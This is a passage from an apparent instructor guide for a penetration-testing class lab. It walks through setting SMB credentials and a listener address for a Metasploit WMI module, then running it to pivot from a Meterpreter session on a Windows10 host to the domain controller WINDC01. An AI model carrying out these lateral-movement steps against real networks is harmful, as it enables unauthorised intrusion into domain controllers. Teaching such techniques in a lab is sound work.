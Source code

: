 	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload:
	
	- `run -j`

	- ![Screenshot depicts the module settings.](Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- ![Screenshot depicts the successful run and info of the system.](Images/wmiexploit.PNG)		
	
Explain to students that we successfully launched the WMI exploit from our Meterpreter session on Windows10 to WINDC01. From a network traffic perspective, the exploit content occurred between Windows10 and WINDC01, instead of Kali to WINDC01. 
